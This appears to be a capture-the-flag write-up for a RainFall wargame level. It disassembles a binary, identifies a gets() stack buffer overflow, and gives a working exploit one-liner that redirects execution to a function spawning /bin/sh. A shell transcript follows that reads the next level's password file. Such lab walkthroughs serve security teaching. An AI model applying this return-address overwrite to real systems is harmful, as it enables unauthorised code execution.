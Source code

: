 # leve02

In this level, we are greeted with a 32-bit ELF *static* executable binary with symbols not stripped.

Static analysis using `objdump` reveals that there is a `run` function :

```text
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00 
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    
```

This function gives us access to a shell. The address `0x8048584` is pointing to a read-only string `/bin/sh`. We somehow needs to execute this function to retrieve the flag !

The `main` function is just a really simple program :

```
08048480 <main>:
 8048480:	55                   	push   ebp
 8048481:	89 e5                	mov    ebp,esp
 8048483:	83 e4 f0             	and    esp,0xfffffff0
 8048486:	83 ec 50             	sub    esp,0x50
 8048489:	8d 44 24 10          	lea    eax,[esp+0x10]
 804848d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave  
 8048496:	c3                   	ret    
```

First, the stack is aligned to a 16-byte boundary, and **0x50** bytes are allocated, likely as a buffer. The program then calls gets, an inherently unsafe C library function prone to **buffer overflow**, as it does not perform *bounds checking* on the buffer.

To execute the run function, we can exploit this buffer overflow to overwrite the return address of the main function, redirecting execution to run.

In a C program linked with the C Standard Library, main is not the actual **entry point**. Instead, it is invoked by the C library’s initialization routine. This is why we target the return address pushed onto the stack (commonly called **saved eip**).

The first step is to fill the buffer completely until we trigger a segmentation fault—this will confirm that we have reached the return address location.

```bash
python -c 'print("a"*76)' | ./level1
```

Through trial and error, we observe a *Segmentation Fault* when exceeding 76 characters (i.e., 76 bytes). This confirms that we have reached and overwritten the return address stored on the stack.

Next, we need to replace this return address with the entry point of the `run` function, which is located at `0x08048444`. Since we are operating on a little-endian architecture (**x86**), we must provide the address in reverse byte order (*least significant byte first).

```bash
python -c 'print("a"*76 + "\x44\x84\x04\x08")' | ./level1
```

We get a message :

```bash
Good... Wait what?
Segmentation Fault
```

It seems we have achieved our goal—reaching the run function. However, the program segfaults, and we do not get a shell !

The reason is simple: we injected our payload using a pipe, which immediately closes the standard input of the level1 program. When `system` executes sh, the closed standard input causes the shell to exit immediately.

Additionally, since we manually modified the stack, the ret instruction sets `eip` to `0x00000000`, leading to a segmentation fault (for the curious, this is probably the **saved ebp** pushed by main in the function prologue).

The solution is to keep the standard input open by chaining a second command, such as cat.

```bash
level1@RainFall:~$ (python -c 'print("a"*76 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
whoami
level2
cd ../level2
ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Success !